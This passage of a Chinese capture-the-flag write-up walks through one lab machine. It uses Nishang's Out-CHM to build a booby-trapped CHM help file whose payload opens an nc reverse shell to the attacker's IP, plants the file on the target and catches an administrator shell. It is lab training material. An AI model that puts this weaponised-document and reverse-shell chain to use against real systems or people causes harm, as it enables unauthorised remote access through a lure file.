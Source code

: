 > Nishang 是一款针对 Powershell 的渗透测试工具，集成了框架、脚本和各类 Payload

首先下载并安装微软 [HTML Help Workshop](https://www.microsoft.com/en-us/download/confirmation.aspx?id=21138)  如果出现下面的错误，多半是因为用户名包含中文，最好新建一个账户

![image-20200311012146658](https://tva1.sinaimg.cn/large/00831rSTgy1gcpcbbrz53j30qo0bc74x.jpg)

安装好之后就可以运行 Out-CHM 脚本了，首先将 ps1 脚本 import 进本地 Powershell （下面两种方法都可以）

![image-20200311015547134](https://tva1.sinaimg.cn/large/00831rSTgy1gcpdapqh1lj30si088mxz.jpg)

之后构造 payload 如下

```shell
Out-CHM -Payload "cd C:\wuj1n9\;./nc.exe 10.10.14.116 4446 -e powershell" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```

`-payload` 中的内容即为 CHM 被打开后自动运行的命令

`-HHCPath` 为 HTML Help Workshop 的位置，默认都是这个位置

运行后会生成 `doc.chm`，将其放进 kali 的 web 服务文件夹下，使用 `Invoke-WebRequest` 传入靶机的 `C:\Docs` 目录下

![image-20200311020753022](https://tva1.sinaimg.cn/large/00831rSTgy1gcpdnb7kv6j31j20iowkz.jpg)

```shell
Invoke-WebRequest -Uri "http://10.10.14.116/doc.chm" -Outfile "C:\Docs\doc.chm"
```

![image-20200311020102228](https://tva1.sinaimg.cn/large/00831rSTgy1gcpdg6gvykj31b40j2q71.jpg)

注意到此时已经将恶意 CHM 上传成功，但每次过一会就消失了，意味着 Chris 的老板打开过该文件了。提前新建终端打开 nc 监听 payload 中写的端口，几秒后发现成功获取管理员权限的 shell

![image-20200311020345470](https://tva1.sinaimg.cn/large/00831rSTgy1gcpdj00nklj318a0u0n2t.jpg)

获取 root.txt

![image-20200311021008746](https://tva1.sinaimg.cn/large/00831rSTgy1gcpdpmrwa6j30ya0gyac5.jpg)

## 0x04 总结

Thanks！

该靶机涉及的知识非常多，各类提权姿势，值得仔细研究~


















